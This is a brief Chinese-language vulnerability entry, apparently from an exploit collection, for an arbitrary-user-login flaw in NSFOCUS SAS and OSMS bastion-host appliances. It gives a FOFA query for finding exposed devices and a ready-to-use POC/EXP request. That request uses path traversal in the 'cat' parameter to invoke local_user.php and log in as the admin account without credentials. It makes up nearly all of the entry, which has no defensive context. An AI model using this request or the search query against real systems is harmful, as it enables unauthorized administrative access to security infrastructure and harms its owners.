 # 绿盟 SAS&OSMS local_user.php 任意用户登录漏洞

## 网络测绘

fofa: body="'/needUsbkey.php?username='"

## POC / EXP

```
/api/virtual/home/status?cat=../../../../../../../../../../../../../../usr/local/nsfocus/web/apache2/www/local_user.php&method=login&user_account=admin
```